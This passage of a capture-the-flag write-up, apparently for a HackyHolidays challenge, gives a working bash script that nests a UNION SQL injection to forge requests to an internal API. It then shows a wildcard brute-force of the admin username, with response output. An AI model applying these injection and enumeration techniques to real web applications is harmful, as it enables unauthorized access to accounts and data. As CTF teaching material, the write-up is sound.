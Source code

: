 ```
#!/bin/bash

URL="https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/"

BASE64=$(curl -s $URL"album?hash=chron0x' UNION ALL SELECT \"chron0x' UNION ALL SELECT NULL,NULL,'$1'-- -\",null,null -- -" \
        | grep "img-responsive" \
        | grep -o "data\=.*" \
        | sed "s/^data\=//g" \
        | sed "s/\">//g")

RESP=$(curl -s $URL"picture?data="$BASE64)

echo $1 $RESP
```
The script will always respond with our input parameter and the response with respect to the picture query. Through either brute-forcing or some educated guesses we can find the following interesting responses.
```
chron0x Expected HTTP status 200, Received: 404
../api Invalid content type detected
../api/user Invalid content type detected
```
Note you can use the above script for brute-forcing by just queying it with each line of the wordlist and grepping for the reponses. Now we know that the user endpoint exists. The next step would be to query some user information. Through an educated guess or brute-forcing we can again find a valid parameter.
```
../api/user?name=chron0x Expected HTTP status 200, Received: 400
../api/user?username=chron0x Expected HTTP status 200, Received: 204
```
As we have seen from the previous table, response `204` means `Successful request but with no data found`. This means we found the `username` parameter. The next step would be to find a valid username. First, let's see if any character can give us a different response. Iterating through all ASCII characters we find:
```
../api/user?username=a Expected HTTP status 200, Received: 204
../api/user?username=b Expected HTTP status 200, Received: 204
../api/user?username=% Invalid content type detected
```
In hope that the `%` character behaves as a wildcard, we can try if we can brute-force the first character of a username. Indeed, we can the following username:
```
../api/user?username=g% Invalid content type detected
../api/user?username=gr% Invalid content type detected
../api/user?username=gri% Invalid content type detected
../api/user?username=grin% Invalid content type detected
../api/user?username=grinc% Invalid content type detected
../api/user?username=grinch% Invalid content type detected
../api/user?username=grincha% Invalid content type detected
../api/user?username=grinchad% Invalid content type detected
../api/user?username=grinchadm% Invalid content type detected
../api/user?username=grinchadmi% Invalid content type detected
../api/user?username=grinchadmin% Invalid content type detected
../api/user?username=grinchadmin Invalid content type detected
```
`grinchadmin` it is. Well, we already found a method to brute-force the username. Let's try if we can apply the same approach for a password. However, at this step, we have to be cautious, since we do not know how to connect the two parameters.
```
../api/user?username=grinchadmin&test=chron0x Invalid data format
../api/user?username=grinchadmin%26test=chron0x Expected HTTP status 200, Received: 400
```
As we can see, we should use the URL-encoded variant. Again through either an educated guess or through brute-force, we can find the password parameter.